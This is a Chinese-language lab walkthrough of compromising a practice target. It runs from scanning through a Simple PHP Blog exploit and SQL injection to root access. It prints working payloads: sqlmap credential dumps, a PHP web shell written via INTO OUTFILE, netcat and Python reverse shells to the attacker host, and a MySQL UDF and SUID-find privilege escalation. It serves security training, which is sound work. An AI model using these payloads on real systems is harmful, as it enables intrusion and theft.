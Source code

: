 
# 0X00 环境
**攻击机：10.10.10.1**<br />**靶机：10.10.10.100**


# 0X01 信息收集
使用[NMAP](https://www.yuque.com/xmtxsec/network_security/xm1y1f)进行端口扫描
```
nmap -sV -A 10.10.10.100 -p-
```
![image.png](_img\06-靶场实践/1671430832355-88534d3f-f65a-407d-b038-358f32c1249f.png)

访问80端口，一个简约的网站，有登录和账户创建页面。
![image.png](_img\06-靶场实践/1671431018300-48dbd04a-2029-4dfa-a52c-6b6c6c19c959.png)

目录扫描
![image.png](_img\06-靶场实践/1671432446548-b50e2979-32ea-4d89-a0a6-17c0839bd075.png)

扫描出一个Blog页面[http://10.10.10.100/blog/](http://10.10.10.100/blog/)
![image.png](_img\06-靶场实践/1671432507518-7000ca65-4a4c-4ff7-9619-d0ece0e4e382.png)

查看前端源码发现是Simple PHP Blog 0.4.0
![image.png](_img\06-靶场实践/1671432541987-682533de-f3b9-4509-853f-22b3e3b3ff35.png)

# 0X02 漏洞发现 
搜索发现该版本存在漏洞
![image.png](_img\06-靶场实践/1671432647062-9531b44f-8c85-4e29-8dda-167d25a12dd7.png)

 在80端口有个一个登陆页面，尝试是否存在SQL注入
![image.png](_img\06-靶场实践/1671499968229-b1015d06-9057-467c-aebd-abb95f3ddb6b.png)
存在SQL注入
![image.png](_img\06-靶场实践/1671499953731-72f54e02-77c3-4933-9649-1fb6f24206aa.png)


# 0X03 漏洞利用 
打开[Metasploit](https://www.yuque.com/xmtxsec/network_security/mc8ier)搜索Simple PHP Blog 0.4.0
```
search Simple PHP Blog 0.4.0
```
![image.png](_img\06-靶场实践/1671432838672-c651817b-d0ee-4245-9e78-5c0535df6f01.png)

利用该漏洞模块，并设置参数
```
msf6 > use 0
msf6 exploit(unix/webapp/sphpblog_file_upload) > set RhOSTS 10.10.10.100
msf6 exploit(unix/webapp/sphpblog_file_upload) > set URI /blog
```
![image.png](_img\06-靶场实践/1671433029469-cbb2eb2e-22ea-4c39-b730-07f225577b19.png) 

执行
```
msf6 exploit(unix/webapp/sphpblog_file_upload) > exploit
```
![image.png](_img\06-靶场实践/1671433466851-62aeb0d0-3a8d-4c73-975e-f13e6aaf8bc8.png)

这里虽然创建了会话，但是并不能执行命令
![image.png](_img\06-靶场实践/1671434163114-86f90593-748c-4242-9967-924a612e659c.png)

幸运的是这里给我们创建了凭据
![image.png](_img\06-靶场实践/1671434213078-a7681ef4-75c2-48f9-90de-dea5c078fb2e.png)

尝试使用凭据登录，登陆失败
![image.png](_img\06-靶场实践/1671499751906-9e2afaec-939b-4b63-bab0-15e5f3f163a1.png)

在前面我们还发现存在一个SQL注入漏洞，适用burpsuite抓包
![image.png](_img\06-靶场实践/1671500207542-cd53155e-b8c1-42f2-8a06-9e749694f127.png)

将数据包保存到文件中使用[SQLMAP](https://www.yuque.com/xmtxsec/network_security/ky08tt)进行扫描
```
sqlmap -r sql.txt
```
![image.png](_img\06-靶场实践/1671501577957-723a9dd5-8083-455f-9b6f-1060a1c7a86d.png)

爆库
```
sqlmap -r sql.txt --dbs
```
![image.png](_img\06-靶场实践/1671501636072-9e119530-4b01-4146-8ff0-cdb8891d6344.png)

查看ch16数据库中的数据表
```
sqlmap -r sql.txt -D ch16 --tables
```
![image.png](_img\06-靶场实践/1671501741459-07589780-b168-4bd4-9bba-95199af67f69.png)

查看user表
```
sqlmap -r sql.txt -D ch16 -T users --columns
```
![image.png](_img\06-靶场实践/1671501895998-aeefb0cd-cb17-4fb6-93ee-bdc68af9f56b.png)

查看email和pass中的数据
```
sqlmap -r sql.txt -D ch16 -T users -C email,pass --dump
```
![image.png](_img\06-靶场实践/1671502546010-eb551e28-0e22-4302-8143-e52d2b6b6b7b.png)

解密得到admin@isints.com/killerbeesareflying尝试登陆，并没有什么有用的信息
![image.png](_img\06-靶场实践/1671503212695-0cd5605b-606a-41ad-b19a-19a8c0e8373a.png)

创建一个shell尝试使用SQLMAP写入shell
```
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.1 lport=666 -f raw -o shell.php
```
![image.png](_img\06-靶场实践/1671503508972-29f4f6a5-c77a-4905-b7a5-6c96172fd3b5.png)

```
sqlmap -r sql.txt --batch  --file-write shell.php  --file-dest /var/www/shell.php
```
![image.png](_img\06-靶场实践/1671504173557-0e3e6f88-5fd7-4816-9832-a96058b2678a.png)
写入失败

手工尝试，在上面的SQLMAP中我们可以得到SQL语句为
```
1' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7171626a71,0x437465517663465354486c676f45466a42574e786f53694f544e4e754d47634a4261624f4a527676,0x71706b7871),NULL,NULL,NULL,NULL-- -
```

在其基础上进行修改，查看是否具有load_file权限
```
1' UNION ALL SELECT NULL,NULL,NULL,load_file('/etc/passwd'),NULL,NULL,NULL,NULL-- -
```
![image.png](_img\06-靶场实践/1671504397590-8ffe83de-5ba8-4bc1-be38-82767e3f366b.png)

具有load_file权限，尝试写入木马
```
1' union select null,null,null,"<?php system($_GET['cmd']);?>",null,null,null,null into outfile '/var/www/shell.php'-- -
```
![image.png](_img\06-靶场实践/1671504547296-59112fdb-2d50-4142-83c7-32ddd5abcea0.png)

尝试执行命令
```
http://10.10.10.100/shell.php?cmd=id
```
![image.png](_img\06-靶场实践/1671504622022-3a37d9b4-a820-43ef-945f-4fa81e7e5fa8.png)

尝试使用NC反弹shell
```
http://10.10.10.100/shell.php?cmd=/bin/nc 10.10.10.1 4444 -e /bin/bash
```
![image.png](_img\06-靶场实践/1671504835434-c477f257-b7a3-4c6a-bd8d-93acd3198cab.png)
失败

尝试python获取反向shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![image.png](_img\06-靶场实践/1671505423558-fcd444d5-3e98-433a-9a5c-7c24ec6e8f51.png)
成功


# 0X04 提权 
在/var/www/目录下找到一个文件为mysqli_connect.php里面记录了数据库的账号和密码
![image.png](_img\06-靶场实践/1671505801049-99739b02-3e09-49d1-a8e7-5e376188167d.png)

但是登录失败
![image.png](_img\06-靶场实践/1671505860631-b9018bc4-eaaa-4296-8d73-2c3b8eb9f3a0.png)

在/var目录下找到也有mysqli_connect.php
![image.png](_img\06-靶场实践/1671505926373-d6c7d019-84ec-4fed-9a41-cf9e88fd810c.png)

再次尝试登录数据库，成功
![image.png](_img\06-靶场实践/1671505976885-b51d2b19-950f-4f4c-a910-eea0bf031919.png)

在前面我们可以写入文件，这里可能可以使用UDF提权，UDF提权详情见[0X04 数据库内置函数研究](https://www.yuque.com/xmtxsec/network_security/anq3ng)
查看 secure_file_priv 的值

- 当 secure_file_priv 的值为 NULL ，表示限制 mysqld 不允许导入|导出文件，此时无法提权。
- 当 secure_file_priv 的值为 /tmp/ ，表示限制 mysqld 的导入|导出文件只能发生在 /tmp/ 目录下，此时也无法提权。
- 当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出文件做限制，此时可提权。
```
show global variables like 'secure%';
```
![image.png](_img\06-靶场实践/1671506224636-cfc28126-8a5a-476c-b900-38dd20f766d0.png)

查看mysql数据库plugin目录位置
```
show global variables like 'plugin%';
```
![image.png](_img\06-靶场实践/1671507050759-2f8822b8-07e1-44fe-93bf-968a9ef97687.png)

查看mysql框架
```
show variables like '%compile%';
```
![image.png](_img\06-靶场实践/1671506351133-8c7e65df-9f0f-4cb8-8289-2d7cb45d0b80.png)


将合适的UDF文件上传到plugin目录位置
```
cd /usr/share/metasploit-framework/data/exploits/mysql
python2 -m SimpleHTTPServer 6666
```
![image.png](_img\06-靶场实践/1671506761742-085fba2b-cbdf-4701-ba37-70d8ec6c7ebe.png)

```
cd /usr/lib/mysql/plugin
wget http://10.10.10.1:6666/lib_mysqludf_sys_64.so
```
![image.png](_img\06-靶场实践/1671507143761-e3fca2a9-303a-4b98-b8b5-65301bc710a3.png)

创建sys_eval函数
```
create function sys_eval returns string soname 'lib_mysqludf_sys_64.so';
```
![image.png](_img\06-靶场实践/1671507835204-b1d98194-7999-4bfd-bf95-9403829f6ec9.png)

尝试执行系统命令
```
select sys_eval('whoami');
```
![image.png](_img\06-靶场实践/1671507886216-c46e39ae-4c25-4eef-9c88-1892dc3cd729.png)
 <br />给find命令赋root的sid权限，并执行find命令，获得一个拥有sid root权限
```
select sys_eval('chmod u+s /usr/bin/find');
exit
touch test.txt
find test.txt -exec '/bin/sh' \;
```
![image.png](_img\06-靶场实践/1671510150927-5f86720e-34fb-4a8b-bf77-ae47294cb848.png)
